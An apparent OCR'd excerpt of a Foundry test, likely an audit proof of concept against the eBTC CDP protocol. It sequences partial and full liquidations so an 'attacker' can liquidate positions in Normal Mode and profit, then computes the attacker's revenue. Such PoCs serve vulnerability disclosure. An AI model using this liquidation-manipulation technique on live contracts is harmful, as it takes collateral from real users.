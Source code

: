 ```
            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_123ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[2]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_123ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 124%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[3], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[3], price);
            console.log("Is available to liquidate CDP_124ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_124ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[3]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_124ICR: ", TCR);

                console.log("There is no CDP (TCR <= ICR < CCR)");
            }

            console.log("-- Now the attacker will liquidate some CDPs (ICR <= TCR) < CCR to earn more money --");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            console.log("CDP_110ICR = ", icr0);
            console.log("- Liquidate CDP_110ICR fully");
            vm.prank(user);
            cdpManager.liquidate(cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR after LiqCDP_110ICR fully: ", TCR);
            console.log("!!!System is in NormalMode liquidating 4 CDPs including the first CDP!!!");

            console.log("\n");

            console.log("Is CDP_110ICR liquidated? ", !sortedCdps.contains(cdpIds[0]));
            console.log("Is CDP_122ICR liquidated? ", !sortedCdps.contains(cdpIds[1]));
            console.log("Is CDP_123ICR liquidated? ", !sortedCdps.contains(cdpIds[2]));
            console.log("Is CDP_124ICR liquidated? ", !sortedCdps.contains(cdpIds[3]));
            console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

            console.log("CDP size: ", sortedCdps.getSize());

            uint256 _stETHBalance = collateral.balanceOf(user);
            uint256 _eBTCBalance = eBTCToken.balanceOf(user);
            uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
```